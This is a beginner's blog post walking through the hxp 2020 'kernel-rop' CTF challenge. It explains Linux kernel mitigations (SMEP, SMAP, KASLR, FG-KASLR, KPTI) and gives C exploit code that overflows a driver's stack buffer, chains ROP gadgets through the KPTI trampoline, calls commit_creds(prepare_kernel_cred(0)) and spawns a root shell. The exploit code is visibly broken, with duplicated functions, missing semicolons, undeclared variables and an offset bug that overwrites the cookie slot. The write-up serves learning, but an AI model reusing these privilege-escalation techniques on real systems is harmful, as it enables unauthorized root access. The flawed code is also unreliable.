


+++
title = "Kernel Hacking: Getting Started"
date = "2023-12-14T20:00:44+05:30"
author = "0xAtharv"
authorTwitter = "0xAtharv" #do not include @
cover = ""
tags = ["Kernel Pwn","CTF","BOF"]
keywords = ["Kernel Pwn","CTF","BOF"]
description = "First step into the world of Kernel Hacking"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
+++


So in this blog post i will be writing about kernel pwning / kernel hacking (linux).I was also fascinated with how the kernel worked and to me it was always very mystical and seemed something extremely complicated (extended inline assembly seemed like it was elvish writing ). I will be writing about various steps i took to start kernel hacking .So lets get started !

I will be starting with a challenge from hxp-ctf 2020 kerne-rop , Why ? because its a classic bof and it had a lot of good well documented writeups i can refer to :) !

DISCLAIMER: I am very new to kernel pwn so if you think something in the blog post seems a little off or is wrong feel free to reach out and correct me !
Debugging Setup⌗

so the initial Qemu script provided to us looks like this :
```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
adding -s to qemu script enable the debugging interface.
```
#!/bin/sh
qemu-system-x86_64 \
    -s \  
    -m 128M \ 
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
## Somethings to note

`SMEP,SMAP,KASLR,FG-KASLR and KPTI` are enabled by default, we will talk about what they do in just a second

***What is SMEP and SMAP?*** 

*SMEP* stands for *Supervisor mode execution protection (SMEP)* is a kernel protection mechanism introduced to preventt ret2usr.SMEP marks userland pages Non-executable

*SMAP* stands for *Supervisor Mode Access Protection* it marks userland pages as non-readable

SMEP and SMAP can be enabled using the 20th and 21st bit of the CR4(Control Register) register which is a priviliged register.

*KASLR* stands for *Kernel Address Space Layout Randomization* it is the same as we see in userland pwn where a loaded libraries are loaded at a random address.KASLR loads the kernel image at a random address.

*FG-KASLR* : what FG-KASLR does is it changes the offsets of functions each time the kernel is loaded , but how would this work ?? doesnt the kernel need function addresses too if everything is completely random the kernel cant resolve the functions. well not all functions are at a random offset some functions and structures are not randomized like the ksymtab (this is actually a section in the ELF file ) which contains the offset to other functions in the kernbael .This offset is from the ksymtab symbols entry to the actual function.

*KPTI* stands for *Kernel Page Table Isolation* this protection was introduced in order to protect systems against the Meltdown vulnerability .Previously known as KAISER (kernel address isolation to have side-channels efficiently removed) . what KPTI does is it creates two separate page tables for userland and kernel space so the kernel page table has all Userland page table entries + kernel page table entries but the userland page has userland page table entried and only some limited kernel page table entries

The [kernel_symbol](https://elixir.bootlin.com/linux/latest/source/kernel/module/internal.h#L35) struct:

struct kernel_symbol {
	int value_offset;
	int name_offset;
	int namespace_offset;
};

looking at it in gdb prepare_kernel_cred function in ksymtab:



By cat /proc/kasllysms we can look at all kernel symbols we see that prepare_kernel_cred is at 0xffffffff814c67f0 and __ksymtab_prepare_kernel_cred is at 0xffffffff81f8d4fc




now adding the value_offset to the ksym address we see we are at the prepare_kernel_cred address which is (0xffffffff81f8d4fc-0xac6d0c) = 0xffffffff814c67f0 by adding the 0x000134b2 offset to (0xffffffff81f8d4fc+0x4) we get the string “prepare_kernel_cred”
Using Ghidra to decompile the Binary⌗

```C
ssize_t hackme_read(file *f,char *data,size_t size,loff_t *off)

{
  long lVar1;
  long lVar2;
  ulong uVar3;
  ulong size;
  long in_GS_OFFSET;
  int tmp [32];
  
  __fentry__();
  canary = *(long *)(in_GS_OFFSET + 0x28);
  __memcpy(hackme_buf,tmp);
  if (0x1000 < size) {
    __warn_printk("Buffer overflow detected (%d < %lu)!\n",0x1000,size);
    do {
      invalidInstructionException();
    } while( true );
  }
  __check_object_size(hackme_buf,size,1);
  lVar2 = _copy_to_user(data,hackme_buf,size);
  uVar3 = 0xfffffffffffffff2;
  if (lVar2 == 0) {
    uVar3 = size;
  }
  if (lVar1 == *(long *)(in_GS_OFFSET + 0x28)) {
    return uVar3;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}


ssize_t hackme_write(file *f,char *data,size_t size,loff_t *off)

{
  long lVar1;
  long lVar2;
  ulong uVar3;
  ulong size;
  long in_GS_OFFSET;
  int tmp [32];
  
  __fentry__();
  canary = *(long *)(in_GS_OFFSET + 0x28);
  if (0x1000 < size) {
    __warn_printk("Buffer overflow detected (%d < %lu)!\n",0x1000);
    do {
      invalidInstructionException();
    } while( true );
  }
  __check_object_size(hackme_buf,size,0);
  lVar2 = _copy_from_user(hackme_buf,data,size);
  if (lVar2 == 0) {
    __memcpy(tmp,hackme_buf,size);
    uVar3 = size;
  }
  else {
    uVar3 = 0xfffffffffffffff2;
  }
  if (lVar1 == *(long *)(in_GS_OFFSET + 0x28)) {
    return uVar3;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```
## The Vulns

The bug here is obvious that we can send a size larger than the size of buffer and overflow it while writing and the same goes for reading data from the hackme_buff.

## Exploitation

so looking at the primitives we have which are very powerful we can read values from and stack and write value to the stack.but in kernel exploitatio our goal is not to get a shell but to get root so we do that by calling:

```C
commit_creds(prepare_kernel_cred(0));
```

lets setup some basic kernel exploit code:

***Read functionality***

```C
int global_fd;
unsigned long cookie;

void hm_open(){
    global_fd = open("/dev/hackme", O_RDWR);
    if (global_fd < 0){
        puts("[+] Failed ");
        exit(0x1337);
    } else {
        puts("[*] Opened device /dev/hackme");
    }
}

void popShell(void){
    puts("[+] Returned to userland");
    if (getuid() == 0){
        printf("got root!\n", getuid());
        system("/bin/sh");
    } else {
            printf("Ooops it looks like we failed\n")
        exit(0x1337);
    }
}

```
When we are reading and writing to the global fd we are actually accessing the hackme_buff verify this by:

```sh
>cat /proc/kallsyms | grep 'hackme'

ffffffffc033e180 t hackme_release	[hackme]
ffffffffc033e000 t hackme_write	[hackme]
ffffffffc033e1a0 t hackme_open	[hackme]
ffffffffc033e0c0 t hackme_read	[hackme]
ffffffffc0340000 d hackme_misc	[hackme]
ffffffffc033e18d t hackme_exit	[hackme]
ffffffffc033f0a0 r hackme_fops	[hackme]
ffffffffc033f076 r .LC1	[hackme]
ffffffffc033f1a0 r _note_7	[hackme]
ffffffffc0340080 d __this_module	[hackme]
ffffffffc033e18d t cleanup_module	[hackme]
ffffffffc0340440 b hackme_buf	[hackme]
```

just like userland pwn we need to find the stack cookie and get a kaslr leak if we examine the hackme_buf carefully the hackme_buf[38] is a address which is not affected by FG-KASLR and is at a constant offset, so leaking it will defeat kaslr.

ROP gadgets used:
```assembly
KPTI TRAMPOLINE:
	mov    rdi,rsp
	mov    rsp,QWORD PTR gs:0x6004
	push   QWORD PTR [rdi+0x30]
	push   QWORD PTR [rdi+0x28]
	push   QWORD PTR [rdi+0x20]
	push   QWORD PTR [rdi+0x18]
	push   QWORD PTR [rdi+0x10]
	push   QWORD PTR [rdi]
	push   rax
	xchg   ax,ax
	mov    rdi,cr3
	jmp    0xffffffff85200f7f
	mov    rax,rdi
	and    rdi,0x7ff
	bt     QWORD PTR gs:0x2ae56,rdi
	jae    0xffffffff85200f70
	btr    QWORD PTR gs:0x2ae56,rdi
	mov    rdi,rax
	jmp    0xffffffff85200f78
	mov    rdi,rax
	bts    rdi,0x3f
	or     rdi,0x800
	or     rdi,0x1000
	mov    cr3,rdi
	pop    rax
	pop    rdi
	swapgs 
	nop    DWORD PTR [rax]
	jmp    0xffffffff85200fc0
	nop
	pop    r15
	pop    r14
	pop    r13
	pop    r12
	pop    rbp
	pop    rbx
	pop    r11
	pop    r10
	pop    r9
	pop    r8
	pop    rax
	pop    rcx
	pop    rdx
	pop    rsi
	pop    rdi
	add    rsp,0x8
	jmp    0xffffffff85200fc0
	nop
	nop    DWORD PTR [rax+rax*1+0x0]
	test   BYTE PTR [rsp+0x20],0x4
	jne    0xffffffff85200fc9
	iretq  

pop_rax:
         pop rax
         retq  

pop_rdi_rbp:
        pop rdi
        pop rbp
        ret
read_mem:
        mov eax, DWORD PTR [rax+0x10]
        pop rbp
        ret
        
```

KPTI TRAMPOLINE:for the kpti all we need to know what it has a swapgs and iretq gadgets which helps us go to userland

read_mem gadget: we use this to read a DWORD value from a ptr stored in RAX+0x10 ans store it into eax . We will use this gadget to read the the value_offset from the kernel_symbol structure for prepare_kernel_cred and commit_creds functions
```C
void leak(){
unsigned n = 40;
unsigned long buff[n];

read(global_fd,buff,sizeof(buff));

image_base = buff[38]-0xa157ULL
kpti_trampoline = image_base + 0x200f10UL + 22UL;
pop_rax_ret = image_base + 0x4d11UL;
read_mem_pop1_ret = image_base + 0x4aaeUL;
pop_rdi_rbp_ret = image_base + 0x38a0UL;
ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
ksymtab_commit_creds = image_base + 0xf87d90UL;

}

```

the exploit will be made completed in 4 parts:

step1 : leak the prepare_kernel_cred offset from __ksymtab_prepare_kernel_cred

step2 : leak the commit_creds offset from __ksymtab_commit_creds

step3: execute commit_creds(prepare_kernel_cred(0))

step4 : pop a root shell !!!

step 1:

```C
int tmp,commit_creds;
unsigned long struct_commit_creds;
void prepare_kernel_creds_asm_save(void){
__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

commit_creds = ksymtab_commit_creds + tmp;

step2();

}
void step1(){
unsigned long payload[50];
int offs=16;

// 16 is the cookie offset
payload[offs] = cookie;
payload[offs++] = 0x0; // rbx 
payload[offs++] = 0x0; // r12 
payload[offs++] = 0x0; // rbp
payload[offs++] = pop_rax_ret; // function ret 
payload[offs++] = ksymtab_prepare_kernel_cred-0x10;
payload[offs++] = read_mem_pop1_ret; // 
payload[offs++] = 0x0; // rbp
payload[offs++] = kpti_trampoline; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = prepare_kernel_creds_asm_save; // rbp
payload[offs++] = user_cs;
payload[offs++] = user_rflags;
payload[offs++] = user_sp;
payload[offs++] = user_ss;

write(global_fd,payload,sizeof(payload));

}

void prepare_kernel_creds_asm_save(void){
__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

prepare_kernel_cred = ksymtab_prepare_kernel_cred + tmp;

step2();

}


void commit_creds_asm_save(){

__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

prepare_commit_creds = ksymtab_commit_creds + tmp;

stage3();

}

void step2(){
unsigned long payload[50];
int offs=16;

// 16 is the cookie offset
payload[offs] = cookie;
payload[offs++] = 0x0; // rbx 
payload[offs++] = 0x0; // r12 
payload[offs++] = 0x0; // rbp
payload[offs++] = pop_rax_ret; // function ret 
payload[offs++] = ksymtab_commit_creds-0x10;
payload[offs++] = read_mem_pop1_ret; // 
payload[offs++] = 0x0; // rbp
payload[offs++] = kpti_trampoline; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = commit_creds_asm_save; // rbp
payload[offs++] = user_cs;
payload[offs++] = user_rflags;
payload[offs++] = user_sp;
payload[offs++] = user_ss;

write(global_fd,payload,sizeof(payload));

}

void after_prepare_kernel_cred(){
    
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp , rax;"
        ".att_syntax;"
    )
    struct_commit_creds = tmp;

    stage4();
}


void stage3(){
     unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = 0; // rdi <- 0
    payload[off++] = 0; // 
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; //  
    payload[off++] = 0x0; //
    payload[off++] = 0x0; //
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    
    write(global_fd, payload, sizeof(payload));


}

void stage4(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = struct_commit_creds; // 
    payload[off++] = 0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)popShell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    write(global_fd, payload, sizeof(payload))
}
```

**NOTE: Another important thing to remember is we need to provide the CS , rflags ,sp and ss register which are popped from the stack during a kernel -> userland swap**

## Closing Thoguhts

This Challenge seemed like a good introduction to kernel pwning and how to navigate kernel source sadly i couldn’t elaborate on everything i learned while solving this challemnge in this blog post so i definately recommend googling around …. [0xAtharv](https://twitter.com/0xAtharv) Out !
